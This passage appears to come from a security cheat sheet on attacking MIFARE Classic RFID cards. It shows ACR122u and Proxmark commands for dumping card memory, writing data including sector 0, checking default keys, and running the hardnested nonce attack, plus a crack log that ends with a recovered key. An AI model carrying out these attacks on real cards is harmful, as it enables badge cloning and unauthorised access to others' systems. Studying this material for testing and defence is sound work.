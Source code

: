 **ACR122u method**

```powershell
nfc-list
mfoc -O card.mfd # dump the memory of the tag
# Le paramètre P permet de spécifier le nombre de sondes par secteur. Par défaut, ce nombre est à 20 mais nous pouvons le passer à 500.
mfoc -P 500 -O dump_first_try.dmp
nfc-mfclassic w a key.mfd data.mfd # write data
nfc-mfclassic W a key.mfd data.mfd # write data and sector 0
```

#### Hardnested attack

> One key is needed in order to use this attack

For newest MIFARE Classic and MIFARE Plus SL1

**Proxmark method**

:warning: NOTE: These hardware changes resulted in the Proxmark 3 Easy being incapable of performing several of the Proxmark's advanced features, including the Mifare Hard-Nested attacks. In other word you need a real Proxmark, not a cheap chinese copy.

```powershell
# find a default key
# res column is either equal to 1 or 0. 
# A 1 in the column means the key was valid for that sector.
hf mf chk *1 ? t


# <block number> <key A|B> <key (12 hex symbols)>
# <target block number> <target key A|B> [known target key (12 hex symbols)] [w] [s]
# w: Acquire nonces and write them to binary file nonces.bin
hf mf hardnested 0 A 8829da9daf76 4 A w

# then https://github.com/aczid/crypto1_bs
./solve_piwi 0xcafec0de.bin
./solve_piwi_bs 0xcafec0de.bin
```

**ACR122u method**

With the key n°A a0a1a2a3a4a5 for sector 0 and we want key n°A for sector 1. This method can be reused for every sectors.

```powershell
./libnfc_crypto1_crack a0a1a2a3a4a5 0 a 4 a
Found tag with uid 62ef9e5a, collecting nonces for key A of block 4 (sector 1) using known key A a0a1a2a3a4a5 for block 0 (sector 0)
Collected 2379 nonces... leftover complexity 23833993588 (~2^34.47) - initializing brute-force phase...
Starting 4 threads to test 23833993588 states using 256-way bitslicing
Cracking...  88.93%
Found key: c44e2b5e4ce3
Tested 21232975852 states
```
